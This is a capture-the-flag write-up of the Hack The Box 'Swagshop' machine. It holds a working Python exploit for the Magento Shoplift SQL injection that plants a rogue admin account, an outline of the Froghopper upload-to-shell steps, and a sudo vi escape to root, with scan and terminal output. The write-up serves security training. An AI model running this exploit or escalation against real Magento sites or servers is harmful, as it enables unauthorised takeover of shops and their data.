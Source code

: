 ```yaml
---
layout: single_c
title:  "Hack The Box - Swagshop Writeup"
date:   2019-10-17 10:43:16 +0530
categories: Hack-The-Box
classes: wide
---
```

### Hack The Box - Swagshop

## Enumeration
Lets start by enumerating

#### Nmap
Starting with namp
```bash
nmap -sC -sV 10.10.10.140

# Nmap 7.70 scan initiated Thu Aug 29 15:03:29 2019 as: nmap -sC -sV -oA nmap 10.10.10.140
Nmap scan report for ip-10-10-10-140.ap-south-1.compute.internal (10.10.10.140)
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b6:55:2b:d2:4e:8f:a3:81:72:61:37:9a:12:f6:24:ec (RSA)
|_  256 4c:50:d5:f2:70:c5:fd:c4:b2:f0:bc:42:20:32:64:34 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://10.10.10.140/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 15:04:15 2019 -- 1 IP address (1 host up) scanned in 45.63 seconds
```
There seems to be a web Magento service running on port 80. Let enumerate further
()
#### Directory Buster
`dirb` found an admin login page
{% raw %}![alt1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/swag1.png){% endraw %}

## Vulnerability

#### Searchsploit
```bash
root@kali:~# searchsploit magento
--------------------------------------- ----------------------------------------
 Exploit Title                         |  Path
                                       | (/usr/share/exploitdb/)
--------------------------------------- ----------------------------------------
Magento 1.2 - '/app/code/core/Mage/Adm | exploits/php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adm | exploits/php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' C | exploits/php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserializ | exploits/php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) | exploits/php/webapps/37811.py
Magento Server MAGMI Plugin - Multiple | exploits/php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a -  | exploits/php/webapps/35052.txt
Magento eCommerce - Local File Disclos | exploits/php/webapps/19793.txt
Magento eCommerce - Remote Code Execut | exploits/xml/webapps/37977.py
eBay Magento 1.9.2.1 - PHP FPM XML eXt | exploits/php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted | exploits/php/webapps/38651.txt
--------------------------------------- ----------------------------------------
Shellcodes: No Result
``` 
I had to try most of these to find the right one. The issue is a time based `sql injection`
[Exploit](https://www.exploit-db.com/exploits/37977)

## Exploitation
I modified the python script to correct the url and added a user named `joe123` with password `forme`

```python
import requests
import base64
import sys

target = "http://10.10.10.140/"

if not target.startswith("http"):
    target = "http://" + target

if target.endswith("/"):
    target = target[:-1]

target_url = target + "/index.php/admin/Cms_Wysiwyg/directive/index/"

q="""
SET @SALT = 'rp';
SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT ));
SELECT @EXTRA := MAX(extra) FROM admin_user WHERE extra IS NOT NULL;
INSERT INTO `admin_user` (`firstname`, `lastname`,`email`,`username`,`password`,`created`,`lognum`,`reload_acl_flag`,
`is_active`,`extra`,`rp_token`,`rp_token_created_at`) VALUES
('Firstname','Lastname','email@example.com','{username}',@PASS,NOW(),0,0,1,@EXTRA,NULL, NOW());
INSERT INTO `admin_role` (parent_id,tree_level,sort_order,role_type,user_id,role_name) VALUES 
(1,2,0,'U',(SELECT user_id FROM admin_user WHERE username = '{username}'),'Firstname');
"""


query = q.replace("\n", "").format(username="joe123", password="forme")
pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query)

# e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ decoded is{{block type=Adminhtml/report_search_grid output=getCsvFile}}
#print target_url
r = requests.post(target_url, 
                  data={"___directive": "e3tibG9jayB0eXBlPUFkbWluaHRtbC9yZXBvcnRfc2VhcmNoX2dyaWQgb3V0cHV0PWdldENzdkZpbGV9fQ",
                        "filter": base64.b64encode(pfilter),
                        "forwarded": 1})
if r.ok:
    print "WORKED"
    print "Check {0}/admin with creds forme:forme".format(target)
else:
    print "DID NOT WORK"

 ```
 
 And now we can login into the application
## Usershell
 searched and found magento froghpper vuln [Linl](https://www.foregenix.com/blog/anatomy-of-a-magento-attack-froghopper)
 
 1. change developer settings
 2. upload file
 3. create template
 4. start netcat
 5. preview the template
 6. and we have a shell
 
## Priv esc
## Enum again for root
 ```
 
User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*


[00;33m[+] Possible sudo pwnage![00m
/usr/bin/vi

```
so lets try pwning using vim

```
$ sudo /usr/bin/vi /var/www/html/test1
Vim: Warning: Output is not to a terminal
Vim: Warning: Input is not from a terminal

E558: Terminal entry not found in terminfo
'unknown' not known. Available builtin terminals are:
    builtin_amiga
    builtin_beos-ansi
    builtin_ansi
    builtin_pcansi
    builtin_win32
    builtin_vt320
    builtin_vt52
    builtin_xterm
    builtin_iris-ansi
    builtin_debug
    builtin_dumb
defaulting to 'ansi'

:shell  
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
~
:shell

id
uid=0(root) gid=0(root) groups=0(root)
cd /root
ls
root.txt
ls -la
cat root.txt
c2b087d66e14********************

   ___ ___
 /| |/|\| |\
/_| Â´ |.` |_\           We are open! (Almost)
  |   |.  |
  |   |.  |         Join the beta HTB Swag Store!
  |___|.__|       https://hackthebox.store/password

                   PS: Use root flag as password!
                   
```
## Solved